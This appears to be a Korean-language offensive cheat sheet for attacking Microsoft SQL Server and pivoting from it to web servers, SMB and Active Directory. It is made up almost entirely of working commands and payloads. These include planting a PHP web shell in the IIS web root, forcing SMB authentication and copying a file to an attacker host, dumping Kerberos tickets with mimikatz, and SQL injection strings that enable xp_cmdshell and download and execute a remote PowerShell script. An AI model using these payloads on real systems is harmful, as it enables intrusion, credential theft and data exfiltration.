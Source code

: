 
## 🔗 다른 서비스와 연계

### 🌐 웹 애플리케이션과 연계

```bash
# 웹 애플리케이션 크레덴셜로 MSSQL 접근
# web.config, connection string에서 발견한 크레덴셜 사용
impacket-mssqlclient '{WEB_DB_USER}:{WEB_DB_PASS}@{IP}'

# MSSQL에서 웹 디렉토리에 파일 쓰기
EXEC xp_cmdshell 'echo "<?php system($_GET[\"cmd\"]); ?>" > C:\inetpub\wwwroot\shell.php';

# 웹쉘 업로드
bcp "SELECT '<?php system($_GET[""cmd""]); ?>'" queryout "C:\inetpub\wwwroot\shell.php" -c -T
```

### 🗂️ SMB와 연계

```bash
# MSSQL 서비스 계정으로 SMB 접근 시도
# (NT SERVICE\MSSQLSERVER 등)

# UNC 경로를 통한 해시 수집 공격
EXEC xp_cmdshell 'dir \\{ATTACKER_IP}\share';
# Responder로 해시 수집

# SMB를 통한 파일 전송
EXEC xp_cmdshell 'copy C:\important.txt \\{ATTACKER_IP}\share\';
```

### 🔐 Active Directory와 연계

```bash
# AD 사용자 정보 확인
EXEC xp_cmdshell 'net user /domain';
EXEC xp_cmdshell 'net group "Domain Admins" /domain';

# 도메인 컨트롤러 확인
EXEC xp_cmdshell 'nltest /dclist:{DOMAIN}';

# Kerberos 티켓 덤프 (mimikatz 활용)
EXEC xp_cmdshell 'mimikatz.exe "sekurlsa::tickets /export" exit';
```

---

## 🛠️ 고급 MSSQL 공격 기법

### 📊 SQL Injection을 통한 명령 실행

```bash
# 웹 애플리케이션의 SQL injection에서 xp_cmdshell 호출
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; EXEC xp_cmdshell 'whoami';--

# UNION 기반 injection
' UNION SELECT 1,2,3,4,5 FROM OPENROWSET('SQLNCLI', 'Server={IP};Trusted_Connection=yes;', 'EXEC xp_cmdshell ''whoami''')--

# Stacked query injection
'; EXEC xp_cmdshell 'powershell -c "IEX(New-Object Net.WebClient).downloadString(\'http://{ATTACKER_IP}/shell.ps1\')"';--
```
